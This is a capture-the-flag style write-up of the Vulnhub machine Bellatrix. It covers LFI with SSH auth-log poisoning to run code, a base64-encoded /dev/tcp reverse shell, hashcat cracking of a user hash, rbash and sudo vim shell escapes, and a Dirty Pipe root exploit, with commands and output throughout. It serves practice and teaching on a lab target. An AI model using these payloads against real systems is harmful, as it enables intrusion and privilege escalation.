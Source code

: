 ```yaml
---
layout: single
title: Bellatrix vulnhub writeup
excerpt: "Very easy linux machine in which we exploit a LFI to get RCE and abuse a SUID binary"
date: 2022-08-25
classes: wide
header:
  teaser: /assets/images/bellatrix/icon-bellatrix.jpeg
  teaser_home_page: true
  icon: /assets/images/vulnhub.png
categories:
  - writeup
tags:
  - vulnhub
  - log poisoning
  - bruteforcing
---
```



# Bellatrix
## User flag

As always let's see the open ports

```shell
 nmap -n -p- -Pn -sS --min-rate 5000 -oN allports 192.168.1.40
 PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Now let's do a in depth scan of those ports

```shell
nmap -sCV -p80,22 -oN targeted 192.168.1.40
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.3p1 Ubuntu 1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 4b:ce:c7:5a:9c:1f:8b:cd:47:03:08:69:85:c2:91:49 (RSA)
|   256 a1:2a:a8:15:99:04:cc:2a:1e:e3:50:00:f3:55:c2:cc (ECDSA)
|_  256 2c:d3:ec:6f:4f:5b:4a:e0:ea:0a:c3:0d:2f:cb:78:17 (ED25519)
80/tcp open  http    Apache httpd 2.4.46 ((Ubuntu))
|_http-title: AvadaKedavra
|_http-server-header: Apache/2.4.46 (Ubuntu)
```

Nothing meaningful so far let's see the web. Now we have two huge hints we have a domain at the end of the text "ikilledsiriusblack.php" and a possible LFI in that page by looking at the php code on the left corner.

Thats right by going to the php domain and adding ?file we can read files from the system. The obvious step now is to get RCE with log poisoning so I started looking for apache logs everywhere but I couldn't find any. However I managed to found ssh logs at /var/log/auth.log so I injected php code by connecting as a php command like this

```shell
ssh '<?php system($_GET[c]); ?>'@192.168.1.40
```

Just enter whatever password you wish because the idea of this is injecting code on the log. Now if we also call the attribute c we can execute commands ex: ` http://192.168.1.40/ikilledsiriusblack.php?file=/var/log/auth.log&c=ls ` by pressing crtl+u we can see the response more clearly (at least in chrome). Ok let's just inject the base64 shell then in my case `echo "c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjEzLzc3NzcgMD4mMQo=" | base64 -d | bash`

```shell
 nc -lvp 7777
Connection from 192.168.1.40:49022
sh: 0: can't access tty; job control turned off
$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@bellatrix:/var/www/html$ ^Z
zsh: suspended  nc -lvp 7777
[dasor@archlinux ~/htb/bellatrix/scan]$ stty raw -echo;fg
[1]  + continued  nc -lvp 7777

www-data@bellatrix:/var/www/html$ stty rows 30 columns 132
www-data@bellatrix:/var/www/html$
```

We have a directory called secrets in base64 and inside we have the password hash of the user lestrange and a dictionary.

```shell
secretswww-data@bellatrix:/var/www/html$ cd c2VjcmV0cw\=\=/
www-data@bellatrix:/var/www/html/c2VjcmV0cw==$ ls -la
total 16
drwxr-xr-x 2 root root 4096 Nov 28  2020 .
drwxr-xr-x 3 root root 4096 Nov 28  2020 ..
-rw-r--r-- 1 root root 1237 Nov 28  2020 .secret.dic
-rw-r--r-- 1 root root  117 Nov 28  2020 Swordofgryffindor
www-data@bellatrix:/var/www/html/c2VjcmV0cw==$ cat Swordofgryffindor
lestrange:$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0
```
once cracked the password is

```shell
hashcat -m 1800 hash dict --show
$6$1eIjsdebFF9/rsXH$NajEfDYUP7p/sqHdyOIFwNnltiRPwIU0L14a8zyQIdRUlAomDNrnRjTPN5Y/WirDnwMn698kIA5CV8NLdyGiY0:ihateharrypotter
```

Once logged as the new user we have a restricted shell called rbash but we can easily break out like this

```shell
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ cd
rbash: cd: restringido
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ bash
lestrange@bellatrix:/var/www/html/c2VjcmV0cw==$ cd
lestrange@bellatrix:~$
```

Next step is clear when executing sudo -l

```shell
lestrange@bellatrix:/var/www/html$ sudo -l
Coincidiendo entradas por defecto para lestrange en bellatrix:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

El usuario lestrange puede ejecutar los siguientes comandos en bellatrix:
    (ALL : ALL) NOPASSWD: /usr/bin/vim
```

let's execute a shell with vim as bellatrix

```shell
sudo -u bellatrix vim -c ':!/bin/sh'
:!/bin/sh
$ bash
bellatrix@bellatrix:/var/www/html$
```
 When executing the command a weird pseudo shell spawns but by typing bash we can once again break out. Now we can get the user flag

```shell
bellatrix@bellatrix:/var/www/html$ cd
bellatrix@bellatrix:~$ cat flag.txt
```

## Root flag

For a better workflow I created an ssh key pair and added my public key to the authorized keys however this is optional. After some time lost I decided to execute linpeas and I realize that the user is part of the lxd group however lxc wasn't installed. So my next idea is to try the dirty pipe exploit, I used this [repo](https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits) modified the compile.sh to add --static to both lines and tried the exploits, exploit-1 didn't work but exploit-2 did.


```shell
bellatrix@bellatrix:/dev/shm$ ./exploit-2 /usr/bin/mount
[+] hijacking suid binary..
[+] dropping suid shell..
[+] restoring suid binary..
[+] popping root shell.. (dont forget to clean up /tmp/sh ;))
# whoami
root
# cat /root/root.txt
 ____       _ _       _        _
 |  _ \     | | |     | |      (_)
 | |_) | ___| | | __ _| |_ _ __ ___  __
 |  _ < / _ \ | |/ _` | __| '__| \ \/ /
 | |_) |  __/ | | (_| | |_| |  | |>  <
 |____/ \___|_|_|\__,_|\__|_|  |_/_/\_\




  _               _
 | |             | |
 | |     ___  ___| |_ _ __ __ _ _ __   __ _  ___
 | |    / _ \/ __| __| '__/ _` | '_ \ / _` |/ _ \
 | |___|  __/\__ \ |_| | | (_| | | | | (_| |  __/
 |______\___||___/\__|_|  \__,_|_| |_|\__, |\___|
                                       __/ |
                                      |___/


```

For me this machine is very easy as the Dobby one it only adds more steps but none are difficult to achieve, however I reckon that this machine is really useful to practice a lot of skills.

(EDIT): Hey the last step wasn't needed for root flag, as the machine was in Spanish I though that when I executed sudo -l it meant you could execute this command as bellatrix but bellatrix is also the name of the machine. So you can just go from lestrange to root without dirty pipe. And that's why sometimes you have to read carefully! Anyway great machine over all.
